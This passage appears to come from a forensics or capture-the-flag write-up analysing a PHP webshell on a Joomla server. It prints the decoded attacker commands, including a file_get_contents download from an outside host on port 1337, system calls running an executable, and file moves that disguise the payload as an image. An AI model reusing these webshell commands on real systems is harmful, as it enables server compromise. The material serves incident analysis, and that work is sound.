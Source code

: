 ```php
            get_webshell_command($referrer, $accepted_lan);
            decode_output($output);
        }

        fclose($com_out_file);
    }
```

And there you have it, commands sent and output received by the attacker.

Using that code I could see how the attacker moved the image and executed the malicious `3971.exe`:

```
    command = chdir('C:\inetpub\wwwroot\joomla');@system('3791.exe 2>&1');

    ============

    command = chdir('C:\inetpub\wwwroot\joomla');@file_put_contents(".",file_get_contents("http://prankglassinebracket.jumpingcrab.com:1337/poisonivy-is-coming-for-you-batman.jpeg"));

    ============

    command = chdir('C:\inetpub\wwwroot\joomla\images');@system('move ..\1.jpeg 2.jpeg 2>&1');
    output =         1 file(s) moved.

    ============

    command = chdir('C:\inetpub\wwwroot\joomla\images');@system('dir 2>&1');
    output =  Volume in drive C has no label.
    Volume Serial Number is 5890-B564

    Directory of C:\inetpub\wwwroot\joomla\images

    08/10/2016  03:20 PM    <DIR>          .
    08/10/2016  03:20 PM    <DIR>          ..
    08/10/2016  03:19 PM           553,879 2.jpeg
    08/09/2016  11:12 AM    <DIR>          banners
    08/09/2016  11:12 AM    <DIR>          headers
    08/09/2016  11:40 AM           111,985 imnotbatman.jpg
    05/09/2016  02:49 AM                31 index.html
    05/09/2016  02:49 AM             4,979 joomla_black.png
    05/09/2016  02:49 AM             2,180 powered_by.png
    08/09/2016  11:12 AM    <DIR>          sampledata
                5 File(s)        673,054 bytes
                5 Dir(s)  202,600,960,000 bytes free

    ============

    command = chdir('C:\inetpub\wwwroot\joomla\images');@system('move 2.jpeg imnotbatman.jpg 2>&1');
    output =         1 file(s) moved.

```
